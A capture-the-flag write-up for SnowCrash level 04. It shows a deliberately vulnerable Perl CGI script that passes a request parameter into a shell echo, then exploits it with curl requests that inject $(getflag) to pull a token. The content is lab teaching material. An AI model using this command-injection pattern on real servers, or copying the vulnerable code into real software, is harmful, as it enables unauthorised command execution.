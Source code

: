 ## Level 04

`ls` -> we find a level04.pl (perl script)

Here's the content:

``` perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

### Curl request

It seems we can send curl requests to the server and it will execute the `x` subroutine as this:

`curl -s -X POST -d 'x="salut mec comment ça va"' localhost:4747`

It will shoot us with;

```bash
level04@SnowCrash:~$ curl -s -X POST -d 'x="salut mec comment ça va"' localhost:4747
salut mec comment ça va
```

So we can use echo to execute commands inside the server such as:
```bash
level04@SnowCrash:~$ curl -s -X POST -d 'x="$(getflag)"' localhost:4747
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```